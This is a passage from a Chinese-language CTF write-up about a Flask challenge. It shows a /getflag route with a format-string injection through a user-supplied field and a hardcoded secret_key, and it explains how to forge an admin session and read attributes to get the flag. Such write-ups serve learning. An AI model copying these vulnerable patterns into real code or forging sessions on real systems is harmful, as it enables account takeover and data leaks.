                session['count'] = 0

    @app.route('/getflag', methods=('POST',))
    @login_required
    def getflag():
        u = getattr(g, 'u')
        if not u or u.balance < 1000000:
            return '{"s": -1, "msg": "error"}'
        field = request.form.get('field', 'username')
        mhash = hashlib.sha256(('swpu++{0.' + field + '}').encode('utf-8')).hexdigest()
        jdata = '{{"{0}":' + '"{1.' + field + '}", "hash": "{2}"}}'
        return jdata.format(field, g.u, mhash)
```
还有一个__init__.py
```python
from flask import Flask
from flask_sqlalchemy import SQLAlchemy
from .views import register_views
from .models import db


def create_app():
    app = Flask(__name__, static_folder='')
    app.secret_key = '9f516783b42730b7888008dd5c15fe66'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////tmp/test.db'
    register_views(app)
    db.init_app(app)
    return app
```
可以看到给了secret_key，可以用来伪造session。

解密题目session

本地搭建环境使用secret_key伪造session，并把用户名改为admin来跳过balance的重置，访问getflag路由。

然后使用User的save方法跳出g.u获取flag。

